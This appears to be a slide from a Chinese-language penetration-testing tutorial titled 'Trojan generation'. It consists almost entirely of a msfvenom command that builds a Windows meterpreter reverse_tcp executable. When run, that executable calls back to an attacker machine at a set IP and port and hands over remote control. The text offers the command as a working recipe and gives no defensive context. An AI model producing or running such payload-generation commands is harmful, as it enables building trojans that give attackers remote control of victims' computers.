

木马生成——生成木马

使用msfvenom生成木马：
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.47.130（攻击机IP地址）  LPORT=5555（攻击机监听端口） -f exe -o /root/test.exe